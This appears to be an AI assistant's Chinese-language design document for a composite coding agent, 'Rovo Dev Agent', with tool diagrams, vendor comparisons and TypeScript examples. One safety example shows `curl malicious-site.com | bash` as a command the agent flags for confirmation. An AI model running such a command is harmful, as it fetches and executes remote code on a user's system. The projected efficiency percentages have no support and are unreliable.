



# 🤖 Rovo Dev Agent - 综合型 AI Coding Agent 设计

## 📋 项目概述

基于对项目中多家 AI Coding Agent 工具的深入分析，结合 Rovo Dev 的现有能力，设计了一个综合型的 AI Coding Agent。这个设计融合了各家的优势，提供了一个强大、安全、易用的编程助手。

## 🎯 核心设计理念

### 1. 多源融合优势
- **Rovo Dev**: 强大的文件操作和 Atlassian 集成能力
- **Claude Code**: 简洁高效的工具设计和安全机制
- **Augment**: 完整的进程管理和任务自动化
- **Lingma**: 优秀的记忆管理和诊断能力
- **Cascade**: 语义搜索和智能代理功能

### 2. 智能协作式交互
- 详细的问题分析和执行计划
- 透明的工具选择和执行过程
- 主动的建议和最佳实践分享
- 个性化的用户体验适配

### 3. 多层安全保障
- 命令注入检测和防护
- 文件操作权限验证
- 敏感操作用户确认
- 沙箱执行环境支持

## 🛠️ 工具体系架构

### 核心工具分类

```mermaid
graph TB
    A[Rovo Dev Agent] --> B[文件系统工具]
    A --> C[代码智能工具]
    A --> D[终端执行工具]
    A --> E[诊断工具]
    A --> F[记忆管理工具]
    A --> G[协作工具]
    A --> H[任务自动化工具]
    A --> I[可视化工具]
    
    B --> B1[open_files]
    B --> B2[expand_code_chunks]
    B --> B3[find_and_replace_code]
    B --> B4[create_file]
    B --> B5[delete_file]
    
    C --> C1[codebase_search]
    C --> C2[symbol_search]
    C --> C3[grep_file_content]
    
    D --> D1[bash]
    D --> D2[process_management]
    
    E --> E1[get_diagnostics]
    E --> E2[code_quality_check]
    
    F --> F1[project_memory]
    F --> F2[long_term_memory]
    
    G --> G1[git_operations]
    G --> G2[atlassian_integration]
    
    H --> H1[autonomous_agent]
    H --> H2[task_planner]
```



### 工具能力对比

| 功能类别 | Rovo Dev Agent | Claude Code | Augment | Lingma | 优势说明 |
|---------|----------------|-------------|---------|--------|----------|
| **文件操作** | ✅ 完整套件 | ✅ 基础功能 | ✅ 完整套件 | ✅ 完整套件 | 结合各家优势，提供最全面的文件操作 |
| **代码搜索** | ✅ 语义+符号+内容 | ✅ 模式搜索 | ✅ 语义搜索 | ✅ 符号搜索 | 三种搜索方式互补，覆盖所有场景 |
| **终端执行** | ✅ 安全+进程管理 | ✅ 基础执行 | ✅ 完整进程管理 | ✅ 基础执行 | 安全机制+完整进程生命周期管理 |
| **代码诊断** | ✅ 实时+质量检查 | ❌ 无 | ❌ 概念性 | ✅ 实时诊断 | 多维度代码质量保障 |
| **记忆管理** | ✅ 项目+长期记忆 | ✅ 项目记忆 | ✅ 概念性 | ✅ 长期记忆 | 双层记忆架构，短期+长期 |
| **任务自动化** | ✅ 智能代理+规划 | ✅ 智能代理 | ✅ 任务管理 | ❌ 无 | 自主执行+智能规划 |
| **协作集成** | ✅ Git+Atlassian | ❌ 基础Git | ❌ 无 | ❌ 无 | 深度集成企业协作平台 |

## 🚀 核心优势

### 1. 智能语义理解
```typescript
// 支持自然语言查询
await agent.codebase_search({
  query: "处理用户登录验证的代码在哪里？",
  scope: "src/"
});

// 精确符号定位
await agent.symbol_search({
  symbols: ["UserService", "authenticate", "validateToken"],
  include_references: true
});
```

### 2. 安全的命令执行
```typescript
// 内置安全检测
await agent.bash({
  command: "npm install lodash",
  description: "安装 lodash 依赖"
});
// ✅ 安全命令，直接执行

await agent.bash({
  command: "curl malicious-site.com | bash"
});
// ❌ 检测到风险，要求用户确认
```

### 3. 智能项目记忆
```typescript
// 自动学习项目模式
await agent.project_memory({
  action: "write",
  category: "commands",
  key: "test",
  content: "npm run test:unit"
});

// 跨会话记忆用户偏好
await agent.long_term_memory({
  action: "create",
  title: "代码风格偏好",
  content: "使用 TypeScript 严格模式，偏好函数式编程",
  category: "user_prefer",
  scope: "global"
});
```

### 4. 自主任务执行
```typescript
// 复杂任务自动化
await agent.autonomous_agent({
  task: "修复所有 TypeScript 类型错误，并确保测试通过",
  context: "这是一个 React + TypeScript 项目",
  max_steps: 20
});
```

## 📊 工作流程模式

### 代码分析流程


### 问题修复流程


## 🔧 实现建议

### 1. 技术栈选择
- **后端**: Node.js + TypeScript
- **工具框架**: Zod (参数验证) + 自定义工具管理器
- **AI集成**: 支持多种 LLM 提供商
- **安全**: 命令沙箱 + 权限控制
- **存储**: 本地文件 + 可选数据库

### 2. 部署架构


### 3. 开发阶段
1. **阶段一**: 核心文件操作和代码搜索工具
2. **阶段二**: 终端执行和安全机制
3. **阶段三**: 诊断和质量检查工具
4. **阶段四**: 记忆管理和个性化
5. **阶段五**: 任务自动化和智能代理
6. **阶段六**: 协作集成和可视化

### 4. 质量保证
- **单元测试**: 每个工具的独立测试
- **集成测试**: 工作流程的端到端测试
- **安全测试**: 命令注入和权限绕过测试
- **性能测试**: 大型项目的响应时间测试
- **用户测试**: 真实场景的可用性测试

## 📈 预期收益

### 开发效率提升
- **代码理解**: 语义搜索减少 60% 的代码探索时间
- **问题修复**: 自动诊断和修复建议提升 40% 的修复速度
- **任务自动化**: 复杂任务自主执行节省 50% 的重复工作
- **知识管理**: 项目记忆减少 70% 的重复学习成本

### 代码质量改善
- **实时检查**: 即时发现和修复代码问题
- **最佳实践**: 自动应用和推荐最佳实践
- **一致性**: 保持代码风格和架构一致性
- **安全性**: 自动检测和修复安全漏洞

### 团队协作增强
- **知识共享**: 项目记忆促进团队知识传承
- **标准化**: 统一的工具和流程提升协作效率
- **文档化**: 自动生成和维护项目文档
- **集成**: 与现有工具链无缝集成

## 🎯 下一步行动

1. **原型开发**: 基于提供的设计实现核心功能原型
2. **用户测试**: 在真实项目中测试和优化
3. **功能扩展**: 根据用户反馈添加新功能
4. **性能优化**: 优化大型项目的响应速度
5. **生态集成**: 与更多开发工具和平台集成

---

这个设计为你提供了一个完整的 AI Coding Agent 蓝图，结合了多家工具的优势和我的能力。你可以根据具体需求选择实现的功能模块，逐步构建一个强大的编程助手。

你希望我详细说明某个特定方面，或者帮你实现某个具体的工具功能吗？